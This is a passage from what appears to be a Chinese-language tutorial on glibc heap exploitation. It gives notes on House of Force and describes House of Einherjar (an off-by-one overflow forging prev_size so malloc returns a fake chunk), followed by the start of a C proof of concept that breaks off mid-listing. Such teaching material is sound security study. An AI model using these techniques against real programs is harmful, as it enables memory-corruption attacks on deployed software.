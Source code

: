 对 top chunk 修改时应该注意

chunk 的低三位是标志位,应该被忽略

当计算 requestSize 时,需要多减去 8 bytes ,是因为 malloc() 时会多分配 8 bytes

victim 可以是任何地址(heap,stack,bss)

* 运行效果

![house_of_force_result](../pictures/heap/house_of_force/house_of_force_result.png)

通过结果可以看到最后一次 malloc(100) 返回 victim 的地址

### House Of Einherjar

在满足堆泄露的情况下,单字节溢出控制 malloc() 的返回值

可能溢出覆盖掉 next chunk size 并且将当前 PREV_IN_USE 标志位置为 0

也可能将 prev_size 修改成一个假的 size,当 next chunk 已经 free,会发现之前的 chunk 是 free 状态,并使用假的 size

这样 free chunk 便会合并在一个假的 chunk

并由 malloc() 返回

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main()
{
    uint8_t *a;
    uint8_t *b;
    uint8_t *d;

    a = (uint8_t *)malloc(0x38);
    fprintf(stderr, "a: %p\n", a);

    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "real_size_a: %#x\n", real_a_size);

    size_t fake_chunk[6];

    fake_chunk[0] = 0x100;              // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100;              // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t)fake_chunk; // fwd
    fake_chunk[3] = (size_t)fake_chunk; // bck
    fake_chunk[4] = (size_t)fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t)fake_chunk; //bck_nextsize

    fprintf(stderr, "Our fake chunk at %p looks like:\n", fake_chunk);
    fprintf(stderr, "prev_size (not used): %#lx\n", fake_chunk[0]);
    fprintf(stderr, "size: %#lx\n", fake_chunk[1]);
    fprintf(stderr, "fwd: %#lx\n", fake_chunk[2]);
    fprintf(stderr, "bck: %#lx\n", fake_chunk[3]);
    fprintf(stderr, "fwd_nextsize: %#lx\n", fake_chunk[4]);
```